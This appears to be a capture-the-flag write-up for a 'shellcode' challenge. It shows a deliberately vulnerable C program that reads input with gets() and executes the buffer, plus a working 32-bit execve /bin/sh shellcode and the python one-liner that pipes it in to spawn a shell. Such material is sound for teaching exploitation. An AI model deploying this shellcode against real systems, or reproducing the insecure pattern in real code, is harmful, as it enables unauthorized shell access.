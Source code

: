 shellcode - Points: 200
===========

## Description

>This program executes any input you give it. Can you get a shell?

## Hint:

> * Maybe try writing some shellcode?
> * You also might be able to find some good shellcode online.


## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}


```

## Useful Information

checksec shellcode

    Arch:     i386-32-little

    RELRO:    Partial RELRO
    
    Stack:    No canary found
    
    NX:       NX disabled
    
    PIE:      No PIE (0x8048000)
    
    RWX:      Has RWX segments

> NX is disabled and the Arch is i386-32-little.We need to execute a 32bits shellcode like :
**\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80**

> User input require "cat" for keep the process alive for execute our command.

## Exploit
Send the shellcode as user input with python:

> (python -c 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"';cat)|./shellcode

